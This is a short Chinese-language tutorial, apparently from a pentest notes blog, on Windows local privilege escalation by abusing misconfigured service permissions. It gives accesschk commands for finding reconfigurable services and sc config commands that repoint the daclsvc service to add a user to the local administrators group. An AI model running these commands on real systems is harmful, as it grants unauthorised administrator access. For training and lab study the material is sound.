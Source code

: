 ```yaml
---
title: binpath本地提权
categories:
- windows
tags:
- windows
---
```


binpath本地提权是利用了服务权限不正确。在youtube上传了一个演示[视频](https://youtu.be/ZfMKsf5Sv-8)

参考资料：[https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html](https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html)

上一篇提到过，sc.exe是一个管理windows服务的命令。

## 检查服务配置的权限是否不安全
`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`

`“SERVICE_CHANGE_CONFIG” permission.`
任何用户都有修改配置的权限

`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe /accepteula -uwcqv 用户名 *`
查看用户可以有权修改哪些服务。

## 修改服务配置
使用sc命令

下面命令的意思是配置一个exe，作为服务启动。
`sc config NewService binpath= "ntsd -d c:\windows\system32\NewServ.exe"`

sc create whale2dll binpath= "C:\Program Files\DLL Hijack Service\dllhijackservice.exe" type= own
```
配置名称为daclsvc的服务，
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
net localgroup administrators
```

